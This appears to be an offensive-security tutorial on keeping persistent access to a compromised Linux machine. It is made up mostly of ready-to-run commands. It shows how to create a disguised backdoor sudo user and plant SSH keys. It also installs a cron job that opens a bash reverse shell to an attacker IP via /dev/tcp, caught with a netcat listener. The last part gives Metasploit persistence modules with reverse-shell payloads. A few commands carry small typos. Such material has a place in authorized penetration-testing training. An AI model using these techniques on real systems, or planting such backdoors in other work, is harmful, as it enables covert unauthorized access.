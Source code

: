 Persistence refers to maintaining access to a compromised system even after a reboot, user logoff, or other interruptions.


## Creating a Backdoor User

A common persistence technique is creating a backdoor user with elevated privileges or root access. If SSH is enabled, the attacker can create a user that looks like a service account or a legitimate system user.

1. **Create a Backdoor User**
```bash
sudo useradd -m -s /bin/bash <username>
```

2. **Set a password**
```bash
sudo passwd <username>
```

3. **Change User UID (Optional)**
```bash
sudo usermod -u <target_uid> <username>
```

4. **Add the User to the Sudoers File**
```bash
sudo usermod -aG sudo <username>
```

## Using SSH Keys 
SSH keys provide a more secure and stealthy method of maintaining access to a Linux system. By copying your public SSH key to the target system, you can log in without needing to know the password.

1. **Generate SSH Key Pair**
```bash
ssh-keygen -t rsa -b 2048
```
- When prompted, press Enter to accept the default file location (`~/.ssh/id_rsa`).
- Optionally, set a passphrase for extra security. If you leave it empty, the key can be used without a password.

2. **Copy the Public Key to the Target**
```bash
ssh-copy-id <username>@<target_ip>
```
This command will:

- Add your public key to the `~/.ssh/authorized_keys` file on the target.
- Create the `.ssh` directory and set correct permissions if they don’t already exist.

**Manual Alternative**:  
If `ssh-copy-id` is not available, you can manually copy the key:
```bash
cat ~/.ssh/id_rsa.pub | ssh <username>@<target_ip> "mkdir -p ~/.ssh && chmod 700 ~/.ssh && cat >> ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys"
```

3. **Verify Access**
```bash
ssh <username>@<target_ip>
```

## Using a Cron Job
1. **Create a Cron Job in a File**  
Use `echo` to define the cron job and redirect it to a file:
```bash
echo "* * * * * /bin/bash -c 'bin/bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > <new_file>
```

2. **Install the Cron Job Using `crontab`**  
Use the `crontab` command to install the cron job from the file:

```bash
crontab -i <new_file>
```

3. **Verify the Cron Job**  
Check if the cron job was successfully added:

```bash
crontab -l
```
This should display:
```bash
* * * * * /bin/bash -c 'bin/bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'
```

4. **Start a Netcat Listener**  
On your machine (attacker's side), open a Netcat listener to receive the reverse shell connection:
```bash
nc lvnp 4444
```


## Metasploit

Metasploit provides several modules to establish persistence on Linux systems. Some of the most commonly used modules are `cron_persistence`, `service_persistence`, and `sshkey_persistence`.

#### cron_persistence
This module sets up a cron job that runs a specified payload at regular intervals, even if the system is rebooted.

```bash
use post/linux/manage/cron_persistence
set session <session_id>
set cmd "bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1"
run
```

#### service_persistence
This module adds a new system service that starts automatically when the system boots. The service runs a payload, providing persistent access.

```bash
use post/linux/manage/service_persistence
set session <session_id>
set service_name "malicious_service"
set payload linux/x86/shell_reverse_tcp
set lhost <attacker_ip>
set lport <attacker_port>
run
```

#### sshkey_persistence
This module adds an SSH key to the target system, allowing the attacker to log in without a password.

```bash
use post/linux/manage/sshkey_persistence
set session <session_id>
set sshkey <path_to_public_key>
run
```